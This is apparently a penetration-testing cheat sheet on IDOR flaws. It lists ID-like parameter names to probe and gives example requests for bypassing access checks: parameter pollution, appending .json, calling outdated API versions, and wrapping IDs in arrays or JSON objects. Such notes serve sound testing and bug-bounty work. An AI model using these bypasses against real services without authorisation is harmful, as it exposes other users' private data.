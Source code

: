 # IDOR

## Basics

```text
Check for valuable words:
{regex + perm} id
{regex + perm} user
{regex + perm} account
{regex + perm} number
{regex + perm} order
{regex + perm} no
{regex + perm} doc
{regex + perm} key
{regex + perm} email
{regex + perm} group
{regex + perm} profile
{regex + perm} edit
```

## Bypasses

* Add parameters onto the endpoints for example, if there was

```text
GET /api_v1/messages --> 401
vs 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

* HTTP Parameter pollution

```text
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

* Add .json to the endpoint, if it is built in Ruby!

```text
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

* Test on outdated API Versions

```text
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

Wrap the ID with an array.

```text
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

Wrap the ID with a JSON object:

```text
{“id”:111} --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

JSON Parameter Pollution:

```text
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```
